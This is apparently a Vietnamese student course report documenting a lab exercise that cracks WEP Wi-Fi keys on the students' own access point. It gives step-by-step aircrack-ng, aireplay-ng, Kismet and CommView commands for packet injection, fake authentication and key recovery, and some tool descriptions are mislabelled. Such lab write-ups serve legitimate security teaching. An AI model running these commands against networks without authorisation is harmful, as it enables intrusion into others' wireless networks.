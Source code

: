 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: WEP Cracking**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **I. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Máy attacker hệ điêu hành kali 20201b
#### **II. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **III. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```\
Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
```airodump-ng wlan0mon```\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon```\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon```\
Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon```\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng [tên file capture đã bắt ở trên]```\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
```airmon-ng```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)

Bước 2: Bật chế độ monitor cho wireless adapter\
```airmon-ng start wlan0```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)

Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
```airodump-ng wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)

Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
```aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)

Bước 5: Bắt các IV được sinh ra từ Access point\
```airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)

Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
```aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)

Bước 7: Fake authentication với AP\
```aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)

Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
```Aircrack-ng WEPcrack-01.cap```

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)

* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)

![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)

#### **II.Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)\
* Bước 2: Bật chế độ monitor\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin
```sudo kismet -c wlan0mon```\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)
* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)\
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)

